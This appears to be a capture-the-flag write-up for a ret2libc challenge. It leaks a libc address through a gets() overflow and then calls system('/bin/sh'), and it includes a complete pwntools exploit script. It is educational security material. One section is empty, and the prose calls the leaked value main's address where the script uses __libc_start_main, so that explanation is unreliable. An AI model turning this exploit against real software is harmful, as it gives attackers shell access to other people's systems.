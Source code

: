 ## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Create 1st rop 
The first rop is used to leak libc base address.

```
rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)

```

After sending in the rop through ``` p.sendline(rop)```, we will receive an address back. This is the leaked ```main``` address.

We used ```bytes_to_long(received[-2: :-1])``` to process the address and put it into ```leaked```.
Then use this leaked to construct second rop!

## Construct second rop



## Original Script

```
from pwn import *
from Crypto.Util.number import *

#p = remote('pwn.chal.csaw.io', 5016)
p = process("rop")
libc = ELF("libc.so.6")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
